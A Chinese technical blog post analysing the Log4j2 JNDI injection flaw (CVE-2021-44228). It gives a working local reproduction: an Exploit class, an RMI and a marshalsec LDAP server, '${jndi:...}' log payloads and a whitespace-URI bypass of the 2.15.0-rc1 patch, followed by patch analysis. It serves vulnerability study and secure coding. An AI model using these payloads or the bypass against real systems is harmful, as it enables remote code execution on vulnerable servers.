# Log4j2 的 JNDI 注入漏洞（CVE-2021-44228）原理分析与思考 - 牧之丨 - 博客园

> 原文：[`www.cnblogs.com/exmyth/p/15723615.html`](https://www.cnblogs.com/exmyth/p/15723615.html)

https://www.freebuf.com/vuls/316143.html

# 前言

最近 Log4j2 的 JNDI 注入漏洞（CVE-2021-44228）可以称之为“核弹”级别。Log4j2 作为类似 JDK 级别的基础类库，几乎没人能够幸免。极盾科技技术总监对该漏洞进行复现和分析其形成原理。在此分享。

以下涉及的代码，均在 mac OS 10.14.5，JDK1.8.0_91 环境下成功运行。

# 一、 前置知识

### 1.1 Log4j2

Log4j2 是一个 Java 日志组件，被各类 Java 框架广泛地使用。它的前身是 Log4j，Log4j2 重新构建和设计了框架，可以认为两者是完全独立的两个日志组件。本次漏洞影响范围为 Log4j2 最早期的版本 2.0-beta9 到 2.15.0。

因为存在前身 Log4j，而且都是 Apache 下的项目，不管是 jar 包名称还是 package 名称，看起来都很相似，导致有些人分不清自己用的是 Log4j 还是 Log4j2。这里给出几个辨别方法：

1.  Log4j2 分为 2 个 jar 包，一个是接口`log4j-api-${版本号}.jar`，一个是具体实现`log4j-core-${版本号}.jar`。Log4j 只有一个 jar 包`log4j-${版本号}.jar`。
2.  Log4j2 的版本号目前均为 2.x。Log4j 的版本号均为 1.x。
3.  Log4j2 的 package 名称前缀为`org.apache.logging.log4j`。Log4j 的 package 名称前缀为`org.apache.log4j`。

### 1.2 Log4j2 Lookup

Log4j2 的 Lookup 主要功能是通过引用一些变量，往日志中添加动态的值。这些变量可以是外部环境变量，也可以是 MDC 中的变量，还可以是日志上下文数据等。

下面是一个简单的 Java Lookup 例子和输出：

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;

public class Log4j2Lookup {
    public static final Logger LOGGER = LogManager.getLogger(Log4j2RCEPoc.class);

    public static void main(String[] args) {
        ThreadContext.put("userId", "test");
        LOGGER.error("userId: ${ctx:userId}");
    }
} 
```

```
10:21:19.618 [main] ERROR Log4j2RCEPoc - userId: test 
```

从上面的例子可以看到，通过在日志字符串中加入"${ctx:userId}"，Log4j2 在输出日志时，会自动在 Log4j2 的`ThreadContext`中查找并引用`userId`变量。格式类似"${type:var}"，即可以实现对变量 var 的引用。type 可以是如下值：

*   ctx：允许程序将数据存储在 Log4j `ThreadContext`Map 中，然后在日志输出过程中，查找其中的值。
*   env：允许系统在全局文件（如 /etc/profile）或应用程序的启动脚本中配置环境变量，然后在日志输出过程中，查找这些变量。例如：`${env:USER}`。
*   java：允许查找 Java 环境配置信息。例如：`${java:version}`。
*   jndi：允许通过 JNDI 检索变量。
*   ......

其中和本次漏洞相关的便是 jndi，例如：`${jndi:rmi//127.0.0.1:1099/a}`，表示通过 JNDI Lookup 功能，获取`rmi//127.0.0.1:1099/a`上的变量内容。

### 1.3 JNDI

> JNDI（Java Naming and Directory Interface，Java 命名和目录接口），是 Java 提供的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象 。

例如使用数据库，需要在各个应用中配置各种数据库相关的参数后使用。通过 JNDI，可以将数据库相关的配置在一个支持 JNDI 服务的容器（通常 Tomat 等 Web 容器均支持）中统一完成，并暴露一个简洁的名称，该名称背后绑定着一个`DataSource`对象。各个应用只需要通过该名称和 JNDI 接口，获取该名称背后的`DataSource`对象。当然，现在 SpringBoot 单体发布模式，极少会使用这种方式了。

再举个更简单的例子，这有点类似 DNS 提供域名到 IP 地址的解析服务。域名简洁易懂，便于普通用户使用，背后真正对应的是一个复杂难记的 IP，甚至还可能是多个 IP。DNS 即 JNDI 服务，域名即可用于绑定和查找的名称，IP 即该名称绑定的真正对象。用现代可以类比的技术来说，JNDI 就是一个对象注册中心。

JNDI 由三部分组成：JNDI API、Naming Manager、JNDI SPI。JNDI API 是应用程序调用的接口，JNDI SPI 是具体实现，应用程序需要指定具体实现的 SPI。下图是官方对 JNDI 介绍的架构图：



下面是一个简单的例子：

```
public interface Hello extends java.rmi.Remote {
    public String sayHello(String from) throws java.rmi.RemoteException;
} 
```

```
import java.rmi.server.UnicastRemoteObject;

public class HelloImpl extends UnicastRemoteObject implements Hello {
    public HelloImpl() throws java.rmi.RemoteException {
        super();
    }

    @Override
    public String sayHello(String from) throws java.rmi.RemoteException {
        System.out.println("Hello from " + from + "!!");
        return "sayHello";
    }
} 
```

```
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

public class HelloServer {
    public static void main(String[] args) throws RemoteException, NamingException {
        LocateRegistry.createRegistry(1099);
        System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        System.setProperty(Context.PROVIDER_URL, "rmi://localhost:1099");
        InitialContext context = new InitialContext();
        context.bind("java:hello", new HelloImpl());
        context.close();
    }
} 
```

```
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.rmi.RemoteException;

public class HelloClient {
    public static void main(String[] args) throws NamingException, RemoteException {
        System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        System.setProperty(Context.PROVIDER_URL, "rmi://localhost:1099");
        InitialContext context = new InitialContext();
        Hello rmiObject = (Hello) context.lookup("java:hello");
        System.out.println(rmiObject.sayHello("world"));
        context.close();
    }
} 
```

先运行`HelloServer`，再运行`HelloClient`，即可看到运行输出的结果：`sayHello`。

`HelloServer`将`HelloImpl`对象绑定到`java:hello`名称上。`HelloClient`使用`java:hello`名称，即可获取`HelloImpl`对象。

### 1.4 JNDI 注入

由前面的例子可以看到，JNDI 服务管理着一堆的名称和这些名称上绑定着的对象。如果这些对象不是本地的对象，会如何处理？JNDI 还支持从指定的远程服务器上下载 class 文件，加载到本地 JVM 中，并通过适当的方式创建对象。

“class 文件加载到本地 JVM 中，并通过适当的方式创建对象”，在这个过程中，static 代码块以及创建对象过程中的某些特定回调方法即有机会被执行。JNDI 注入正是基于这个思路实现的。

本篇文章主要分析 Log4j2 的 JNDI 注入产生原因，并不会对 JNDI 注入自身太过关注，网上也有大量分析的文章可供参考，这里就不再详述了。

# 二、 漏洞复现

以下复现使用 Log4j2-2.14.1 版本，maven 的引用依赖参考如下：

```
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency> 
```

1.  编写漏洞利用代码 Exploit 并编译生成 Exploit.class。代码如下：

```
public class Exploit {
    static {
        String cmd = "/Applications/Calculator.app/Contents/MacOS/Calculator";
        final Process process;
        try {
            process = Runtime.getRuntime().exec(cmd);
            process.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
} 
```

2.  本地执行`python3 -m http.server 8081`，启动 web 服务器，监听在 8081 端口。将上一步编译生成的 Exploit.class 文件放到 web 服务的根目录（根目录即为执行`python3 -m http.server 8081`命令的工作目录）。

3.  编写 RMI 服务端代码 RMIServer，并编译运行。代码如下：

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference exploit = new Reference("Exploit", "Exploit", "http://127.0.0.1:8081/");
        ReferenceWrapper exploitWrapper = new ReferenceWrapper(exploit);
        registry.bind("exp", exploitWrapper);
    }
} 
```

4.  编写漏洞 poc 代码，并编译运行。代码和运行结果如下：

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2RCEPoc {
    public static final Logger LOGGER = LogManager.getLogger(Log4j2RCEPoc.class);

    public static void main(String[] args) {
        LOGGER.error("${jndi:rmi://127.0.0.1:1099/exp}");
    }
} 
```



# 三、 漏洞原理

由于是 JNDI 注入，因此可以通过在 InitialContext.lookup(String name)方法上设置端点，观察整个漏洞触发的调用堆栈，来了解原理。调用堆栈如下：



整个调用堆栈较深，这里把几个关键点提取整理如下：

```
LOGGER.error
  ......
    MessagePatternConverter.format
      ....
        StrSubstitutor.resolveVariable
          Interpolator.lookup
            JndiLookup.lookup
              JndiManager.lookup
                InitialContext.lookup 
```

### 3.1 MessagePatternConverter.format()

poc 代码中的 LOGGER.error()方法最终会调用到 MessagePatternConverter.format()方法，该方法对日志内容进行解析和格式化，并返回最终格式化后的日志内容。当碰到日志内容中包含`${`子串时，调用 StrSubstitutor 进行进一步解析。



### 3.2 StrSubstitutor.resolveVariable()

StrSubstitutor 将`${`和`}`之间的内容提取出来，调用并传递给 Interpolator.lookup()方法，实现 Lookup 功能。



### 3.3 Interpolator.lookup()

Interpolator 实际是一个实现 Lookup 功能的代理类，该类在成员变量`strLookupMap`中保存着各类 Lookup 功能的真正实现类。Interpolator 对 上一步提取出的内容解析后，从`strLookupMap`获得 Lookup 功能实现类，并调用实现类的`lookup()`方法。

例如对 poc 例子中的`jndi:rmi://127.0.0.1:1099/exp`解析后得到`jndi`的 Lookup 功能实现类为`JndiLookup`，并调用`JndiLookup.lookup()`方法。



### 3.4 JndiLookup.lookup()

`JndiLookup.lookup()`方法调用`JndiManager.lookup()`方法，获取 JNDI 对象后，调用该对象上的`toString()`方法，最终返回该字符串。



### 3.5 JndiManager.lookup()

`JndiManager.lookup()`较为简单，直接委托给`InitialContext.lookup()`方法。这里单独提到该方法，是因为后续几个补丁中较为重要的变更即为该方法。

至此，后续即可以按照常规的 JNDI 注入路径进行分析。

# 四、 补丁分析

### 4.1 2.15.0-rc1

通过比较 2.15.0-rc1 和该版本之前最后一个版本 2.14.1 之间的差异，可以发现 Log4j2 团队在 12 月 5 日提交了一个名为`Restrict LDAP access via JNDI (#608)`的 commit。该 commit 的详细内容如下链接：

[`github.com/apache/logging-log4j2/commit/c77b3cb39312b83b053d23a2158b99ac7de44dd3`](https://github.com/apache/logging-log4j2/commit/c77b3cb39312b83b053d23a2158b99ac7de44dd3)

除去一些测试代码和辅助代码，该 commit 最主要内容是在`3.5`章节中提到的 `JndiManager.lookup()`方法增加了几种限制，分别是`allowedHosts`、`allowedClasses`、`allowedProtocols`。



各个限制的内容分别如下：







可以看到，rc1 补丁通过对 JNDI Lookup 增加白名单的方式，限制默认可以访问的主机为本地 IP，限制默认支持的协议类型为`java`、`ldap`、`ldaps`，限制 LDAP 协议默认可以使用的 Java 类型为少数基础类型，从而大大减少了默认的攻击面。

### 4.2 2.15.0-rc2

4.2.1 rc1 中存在的问题

在 rc1 还未正式成为 release 版本之前，Log4j 团队又在两天不到的时间里发布了 rc2 版本，说明 rc1 依然存在着一些问题。我们来看下 rc1 里主要修复的`JndiManager.lookup()`方法的整体逻辑结构：

```
public synchronized <T> T lookup(final String name) throws NamingException {
        try {
            URI uri = new URI(name);
            if (uri.getScheme() != null) {
                if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                    ......
                    return null;
                }
                if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                    if (!allowedHosts.contains(uri.getHost())) {
                        ......
                        return null;
                    }
                    ......
                    if (!allowedClasses.contains(className)) {
                        ......
                        return null;
                    }
                    ......
                }
            }
        } catch (URISyntaxException ex) {
            // This is OK.
        }
        return (T) this.context.lookup(name);
    } 
```

从上面的代码结构中可以总结如下的逻辑：

*   对传入的`name`参数进行`4.1`章节提到的各类检查。如果检查不通过，则直接返回`null`。
*   如果产生`URISyntaxException`，则对该异常忽略，继续执行`this.context.lookup(name)`。
*   如果未产生`URISyntaxException`，则执行`this.context.lookup(name)`。

我们重点关注`catch`代码块，rc1 默认不对`URISyntaxException`异常做任何处理，继续执行后续逻辑，即`this.context.lookup(name)`。

再看下`try`代码块中可能产生`URISyntaxException`的地方。很不幸，`try`代码块的第一个语句即可能产生该异常：`URI uri = new URI(name);`。

试想一下，如果能够构造某个特殊的 URI，导致`URI uri = new URI(name);`语句解析 URI 异常，抛出`URISyntaxException`，但又能被`this.context.lookup(name)`正确处理，不就可以绕过了吗？

### 4.2.2 绕过 rc1

由于 rc1 未在 maven 中央仓库上，因此需要自行下载代码并构建：

到 Log4j2 的 GitHub 官方仓库下载 rc1：[`github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1`](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1)。分别进入 log4j-api 和 log4j-core 目录，执行`mvn clean install -DskipTests`。最终会在本地 maven 仓库上生成 rc1 的 jar 包，版本为 2.15.0，后续测试使用该 jar 包。

由于 rc1 默认未开启 Lookup 功能，需要先开启，可以通过在配置文件的`%msg`中添加`{lookup}`进行开启。在当前类路径下添加 log4j2.xml，内容参考如下：

```
<Configuration>
    <Appenders>
        <Console name="CONSOLE">
            <PatternLayout>
                <pattern>%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg{lookups}%n</pattern>
            </PatternLayout>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="DEBUG">
            <AppenderRef ref="CONSOLE"/>
        </Root>
    </Loggers>
</Configuration> 
```

1.  漏洞利用代码和`二、漏洞利用`章节中一致，编译生成 Exploit.class。

2.  本地执行`python3 -m http.server 8081`，启动 web 服务器，监听在 8081 端口。将上一步编译生成的 Exploit.class 文件放到 web 服务的根目录（根目录即为执行`python3 -m http.server 8081`命令的工作目录）。

3.  由于 rc1 中默认仅支持`java`、`ldap`、`ldaps`这三种协议，就使用 LDAP 协议吧。自己搭建 LDAP 服务器比较麻烦，这里直接利用下`marshalsec`这个库。运行`java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:8081/#Exploit 8888`，启动 LDAP 服务。

4.  编写漏洞 poc 代码，并编译运行。代码和运行结果如下：

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2RC1Bypass {
    public static final Logger LOGGER = LogManager.getLogger(Log4j2RC1Bypass.class);

    public static void main(String[] args) {
        LOGGER.error("${jndi:ldap://127.0.0.1:8888/ exp}");
    }
} 
```



可以看到，通过构建一个简单的带空格的异形 URI 地址（`127.0.0.1:8888/`和`exp`之间），rc1 被绕过了。

### 4.2.3 rc2 的修复方案

通过比较 2.15.0-rc1 和 2.15.0-rc2 之间的差异，可以发现 Log4j2 团队在 12 月 10 日提交了一个名为`Handle URI exception`的 commit。该 commit 的详细内容如下链接：

[`github.com/apache/logging-log4j2/commit/bac0d8a35c7e354a0d3f706569116dff6c6bd658`](https://github.com/apache/logging-log4j2/commit/bac0d8a35c7e354a0d3f706569116dff6c6bd658)

该 commit 主要内容是对 rc1 中`JndiManager.lookup()`方法里的`catch`代码块进行了修改：当`URISyntaxException`异常被捕获时，直接返回`null`。从而无法使用上一章节的异形 URI 地址绕过。



# 五、思考

本次漏洞就其原理来说，并不复杂，甚至有些简单。rc1 中采用较为严格的白名单限制，就应急处理方法上来看，无可厚非。但从历史上发生的各类漏洞修补过程中来看，必定会有各种地方遗漏导致后续不停地打补丁。从软件开发角度讲，与其在上线后不停修复打补丁，不如在开发早期，即设计阶段或者开发阶段，尽量避免这类既有可能产生安全风险的设计。在最新版本的 2.16.0，Log4j2 团队干脆默认禁用掉了 JNDI Lookup 功能。

另外，rc1 中`catch`代码对异常的处理方式，在日常开发过程中也是容易犯的问题。安全中有一个原则，叫做“Fail Safely”，意为安全地处理错误。安全地处理错误是安全编程的一个重要方面。在程序设计时，要确保安全控制模块在发生异常时遵循了禁止操作的处理逻辑。例如：一个判断用户验证是否通过的代码，默认应该设定用户验证不通过，仅仅在用户验证通过时才设置为验证通过。这样即使在验证过程中发生了异常，并且该异常无意间被捕获时，任然能确保用户验证不通过。

因为 Log4j2 框架几乎是一个类似 JDK 级别的基础类库，即便自身应用程序里完成了升级，但极其大量的其它框架、中间件导致升级工作极为困难，甚至在几年内都无法达到一个可接受的水平。目前，绝大部分公司采取在边界防护设备上使用“临时补丁”的方式。同时，大量 bypass 方法也随之而来，这将是一个漫长的过程。

“临时补丁”意味着无法根除，而底层依赖的升级又极为耗时，那么，如何更好地发现并规避在此期间产生的风险呢？

### 更多内容可参考析策 XDR 平台

[`www.jidun.cn/product/xice`](https://www.jidun.cn/product/xice)

# 参考

*   Log4j2 Lookups： [`logging.apache.org/log4j/2.x/manual/lookups.html`](https://logging.apache.org/log4j/2.x/manual/lookups.html)
*   Oracle JNDI 官方文档： [`docs.oracle.com/javase/tutorial/jndi/overview/index.html`](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)
*   一篇 JNDI 注入原理文章： [`blog.topsec.com.cn/java-jndi%E6%B3%A8%E5%85%A5%E7%9F%A5%E8%AF%86%E8%AF%A6%E8%A7%A3/`](http://blog.topsec.com.cn/java-jndi%E6%B3%A8%E5%85%A5%E7%9F%A5%E8%AF%86%E8%AF%A6%E8%A7%A3/)
*   marshalsec： [`github.com/mbechler/marshalsec`](https://github.com/mbechler/marshalsec)
*   Log4j2 2.14.1 和 2.15.0-rc1 的区别比较： [`github.com/apache/logging-log4j2/compare/rel/2.14.1...log4j-2.15.0-rc1`](https://github.com/apache/logging-log4j2/compare/rel/2.14.1...log4j-2.15.0-rc1)
*   Log4j2 2.15.0-rc1 和 rc2 的区别比较： [`github.com/apache/logging-log4j2/compare/log4j-2.15.0-rc1...log4j-2.15.0-rc2`](https://github.com/apache/logging-log4j2/compare/log4j-2.15.0-rc1...log4j-2.15.0-rc2)